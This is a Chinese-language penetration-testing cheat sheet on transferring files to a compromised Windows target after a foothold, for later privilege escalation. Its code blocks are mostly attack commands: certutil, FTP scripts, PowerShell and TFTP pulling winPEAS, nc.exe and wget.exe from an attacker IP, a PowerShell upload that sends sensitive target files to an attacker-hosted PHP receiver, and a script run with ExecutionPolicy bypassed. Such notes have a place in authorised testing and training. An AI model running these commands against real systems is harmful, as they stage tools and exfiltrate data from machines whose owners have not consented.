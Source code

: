 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Windows文件传输 - Windows File Transfer

## 常用工具

1. certutil.exe
2. FTP
3. Powershell

## 常规方法

### 利用certutil.exe传输

{% hint style="info" %}
首选，兼容老旧的Windows系统：Windows XP / Windows Server 2003 / Windows Vista / Windows Server 2008 / Windows 7 /...

因为老旧的Windows系统没有默认安装或者安装的不是完整版的Powershell，但是certutil.exe是所有Windows系统都有的程序。
{% endhint %}

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
certutil -urlcache -f http://攻方IP:8888/winPEAS.exe winpeas.exe
```

### certutil.exe其他用法

```
// 从互联网上下载程序
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
//对文件进行Base64编码
certutil -encode inputFileName encodedOutputFileName
//解码已被Base64编码的文件
certutil -decode encodedInputFileName decodedOutputFileName
//解码已被16进制编码的文件
certutil --decodehex encoded_hexadecimal_InputFileName
```

### 利用FTP传输

大多是Windows机器都有FTP客户端，但是无法交互使用（可能会杀掉shell）。解决办法：

1. 首先在攻方主机上，自己配置好FTP服务器（用于登录的用户凭证）；
2. 在目标主机上操作，将待执行的命令依次写入一个文本文件中；
3. 将该文本文件作为FTP的输入，执行（即反向连接到攻方FTP服务器）。

```bash
// Target
echo open 攻方IP 21> ftp.txt
echo USER 用户名>> ftp.txt
echo 密码>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

```bash
// Target
ftp -v -n -s:ftp.txt
```

### 利用Powershell传输

#### 下载

```powershell
// Target
Invoke-WebRequest -URL http://<攻方IP>/nc.exe -OutFile nc.exe
```

```bash
// Target
wget http://攻方IP/nc.exe -o nc.exe
```

#### 上传

```powershell
// Target
powershell(New-ObjectSystem.Net.WebClient).UploadFile('http://<攻方IP>/uploadwindows.php','.\<目标上的敏感文件>')
```

在攻方主机/var/www/html目录下分别创建：/uploads目录和uploadwindows.php文件

```php
// uploadwindows.php
<?php
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'],$uploadfile)
?>
```

#### 其他下载方法

在目标系统上，先创建一个Powershell脚本，然后调用语法执行该脚本：

```
// Target创建wget.ps1脚本
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://攻方IP/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

```powershell
// Target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## 利用TFTP传输

适用于（默认安装了TFTP）：Windows XP / Windows 2003 / Kali内置

可以非交互式使用，shell被杀掉的可能性很小。

```bash
// Attacker
# 在攻方Kali主机上
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart

# 然后将要传输的文件或程序放进/srv/tftp 中，并确认TFTP服务器是否被正确运行：
netstat -a -p UDP | grep udp

# 从目标Windows系统上下载所需的内容
tftp -i 目标IP GET wget.exe
```



##

